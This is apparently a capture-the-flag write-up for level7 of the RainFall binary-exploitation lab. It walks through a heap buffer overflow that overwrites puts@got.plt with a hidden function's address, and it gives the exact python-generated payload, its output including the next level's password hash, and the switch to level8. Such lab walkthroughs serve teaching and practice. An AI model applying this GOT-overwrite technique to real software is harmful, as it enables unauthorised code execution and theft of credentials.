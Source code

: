 # level7

```sh
➜  ~ ssh level7@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level7@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
```

# Kid ---> Dumbest pirate of the worst generation

```sh
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 'Kid vs Shanks was not a fight, it was an agression'
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 "Ikoku" "Hakoku"
~~
level7@RainFall:~$
```

__Two tilds...__

![binary 7](Ressources/binary_7-hex-rays.png)

- `v6` is allocated `0x8u` (8 bytes)
- `v6[0]` is allocated `0x8u` (8 bytes)
- `v5` is allocated `0x8u` (8 bytes)
- `v5[0]` is allocated `0x8u` (8 bytes)
- `argv[1]` is copied in `v6[1]`
- `argv[2]` is copied in `v5[1]`
- `v3` stock the content of the file `/home/user/level8/.pass` and passed to the global variable `c`
- A hidden an not-used function `m` that `printf` the content of `c` and the current time (???).

# Vulnerability : <u>Heap Buffer Overflow Attack</u>

This time, we have to overflow in the heap. We have to overflow `v6`, then passed the address of `puts@got.plt`. And as a second argument, we passed the address of the hidden function `m`.

What will be happens ? It replace the address of `puts@got.plt` by the address of `m`. When `puts` will be called, it redirect to the address of the function `m`.

Let's try this (the offset of the first argument was `20`) :

```sh
level7@RainFall:~$ ./level7 `python -c 'print "-"*20 + "\x28\x99\x04\x08"'` `python -c 'print "\xf4\x84\x04\x08"'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1729434708
level7@RainFall:~$
```

# LEZZZZZZGOOOOOOOOO

Let's go to the next level !

```sh
level7@RainFall:~$ su level8
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
level8@RainFall:~$
```

# level7 complet !
![yeah](../assets/yeah.gif)
